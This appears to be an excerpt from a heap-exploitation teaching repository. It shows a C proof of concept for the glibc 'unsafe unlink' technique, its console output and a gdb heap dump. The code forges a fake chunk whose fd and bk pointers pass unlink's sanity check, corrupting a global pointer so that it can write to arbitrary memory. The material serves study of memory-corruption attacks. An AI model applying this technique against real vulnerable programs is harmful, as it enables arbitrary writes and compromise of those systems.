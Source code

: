 ```c

	fprintf(stderr, "At this point we can use chunk0_ptr to overwrite itself to point to an arbitrary location.\n");
	char victim_string[8];
	strcpy(victim_string,"Hello!~");
	chunk0_ptr[3] = (uint64_t) victim_string;

    fprintf(stderr, "chunk0_ptr is now pointing where we want,we use it to overwrite our victim string.\n");
    fprintf(stderr, "Original value: %s\n",victim_string);
    scanf("%125s",chunk0_ptr);
    fprintf(stderr, "New Value: %s\n",victim_string);
}
```

```
Welcome to unsafe unlink 2.0!
Tested in Ubuntu 14.04/16.04 64bit.
This technique can be used when you have a pointer at a known location to a region you can call unlink on.
The most common scenario is a vulnerable buffer that can be overflown and has a global pointer.
The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory write.
The global chunk0_ptr is at 0x602070, pointing to 0x603010
The victim chunk we are going to corrupt is at 0x6030a0
```

```
gdb-peda$ x/24gx 0x603000
0x603000:	0x0000000000000000	0x0000000000000091 <- chunk 0
0x603010:	0x0000000000000000	0x0000000000000000
0x603020:	0x0000000000000000	0x0000000000000000
0x603030:	0x0000000000000000	0x0000000000000000
0x603040:	0x0000000000000000	0x0000000000000000
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000000
0x603080:	0x0000000000000000	0x0000000000000000

0x603090:	0x0000000000000000	0x0000000000000091 <- chunk 1
0x6030a0:	0x0000000000000000	0x0000000000000000
0x6030b0:	0x0000000000000000	0x0000000000000000
0x6030c0:	0x0000000000000000	0x0000000000000000
0x6030d0:	0x0000000000000000	0x0000000000000000
0x6030e0:	0x0000000000000000	0x0000000000000000
0x6030f0:	0x0000000000000000	0x0000000000000000
0x603100:	0x0000000000000000	0x0000000000000000
0x603110:	0x0000000000000000	0x0000000000000000
```

```
We create a fake chunk inside chunk0.
We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &chunk0_ptr so that P->fd->bk = P.
We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &chunk0_ptr so that P->bk->fd = P.
With this setup we can pass this check: (P->fd->bk != P || P->bk->fd != P) == False
Fake chunk fd: 0x602058
Fake chunk bk: 0x602060
```
